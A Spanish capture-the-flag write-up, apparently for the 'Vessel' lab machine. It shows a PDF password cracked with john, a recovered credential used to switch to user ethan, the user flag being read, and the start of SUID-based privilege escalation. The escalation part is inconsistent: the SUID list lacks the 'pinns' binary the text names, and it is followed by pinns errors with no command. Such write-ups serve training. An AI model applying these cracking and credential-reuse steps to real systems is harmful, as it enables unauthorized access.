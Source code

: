 Copiamos estas contraseñas a nuestra máquina linux y ahora con `john` podemos crackear el hash que anteriormente he extraido.
```console
john -w=passwords_win.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (PDF [MD5 SHA2 RC4/AES 32/64])
Cost 1 (revision) is 3 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
YG7Q7RDzA+q&ke~MJ8!yRzoI^VQxSqSS (notes.pdf)
1g 0:00:00:00 DONE (2024-12-04 01:56) 100.0g/s 38400p/s 38400c/s 38400C/s _jEkA+f0VXtWZ[K.d+EdaBAB>;r]E3Z*..r6TUgox@Tb5JWnK5AHO}$AE%8!d58Shq
Use the "--show --format=PDF" options to display all of the cracked passwords reliably
Session completed.
```

Ahora podemos leer el PDF y vemos una credencial que supuestamente es de `ethan`
![Write-up Image](images/Screenshot_23.png)

Por lo cual tenemos un combo, `ethan: b@mPRNSVTjjLKId1T` que es válido en la máquina víctima y podemos migrar de usuario.
```console
(remote) www-data@vessel:/home/steven/.notes$ su ethan
Password:
ethan@vessel:/home/steven/.notes$ id
uid=1000(ethan) gid=1000(ethan) groups=1000(ethan)
```

Podemos ver la flag de usuario.
```console
ethan@vessel:~$ cat user.txt
8458e60618f88d...
```

# Privilege Escalation
Tras enumerar la máquina victima encontramos un binario con permiso de SUID un tanto extraño. Este es el binario `pinns`
```console
ethan@vessel:~$ find / \-perm \-4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/at
/usr/bin/chsh
```

[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Path for pinning namespaces not specified: Invalid argument
[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
[pinns:e]: Failed to bind mount ns: /proc/self/ns/user: Operation not permitted
[pinns:w]: Failed to create ns file: File exists